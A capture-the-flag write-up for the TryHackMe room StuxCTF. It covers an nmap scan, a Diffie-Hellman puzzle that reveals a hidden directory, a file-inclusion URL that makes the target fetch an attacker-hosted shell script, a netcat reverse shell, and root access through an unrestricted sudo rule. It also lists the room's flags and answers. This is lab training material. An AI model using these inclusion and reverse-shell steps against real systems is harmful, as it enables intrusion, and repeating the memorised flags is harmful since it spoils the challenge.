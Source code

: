 # StuxCTF

Crypto, serealization, priv scalation and more ...!

[StuxCTF](https://tryhackme.com/room/stuxctf)

## Chủ đề của

- Network Enumeration
- Web Poking
- Cryptography
  - AES
- Local File Inclusion
- Misconfigured Binaries

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 StuxCTF

Read user.txt and root.txt

```
bibo318@parrot:~/CTFs/tryhackme/StuxCTF$ sudo nmap -A -sS -sC -sV -O 10.10.66.221
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 16:43 CEST
Nmap scan report for 10.10.66.221
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=41085%PV=Y%DS=2%DC=T%G=Y%TM=5F85BD
OS:37%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.03 ms 10.8.0.1
2   36.33 ms 10.10.66.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

[http://10.10.66.221/robots.txt](http://10.10.66.221/robots.txt)

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow:
Disallow: /StuxCTF/
```

[http://10.10.66.221/StuxCTF/](http://10.10.66.221/StuxCTF/)

[view-source:http://10.10.66.221/](view-source:http://10.10.66.221/)

```
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

p: `9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251`;
g: `7`;
a: `330`;
b: `450`;
g^c: `6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617`;

[http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/](http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/)

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.8.106.222:80/shell.txt`

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/n.php`

```
bibo318@parrot:~/CTFs/tryhackme/StuxCTF$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.66.221] 35024
whoami
www-data
pwd
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
cd /home
ls
grecia
cd grecia
ls
user.txt
cat user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
cd /root
ls
root.txt
cat root.txt
0028454003b42601548df551b738976c
```

1. user.txt

`0b6044b7807dd100b9e30f1bd09db53f`

2. root.txt

`0028454003b42601548df551b738976c`

3. What is the hidden directory? HINT: `g ^ a mod p, g ^ b mod p, g ^ C mod p` first 128 characters ...

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`
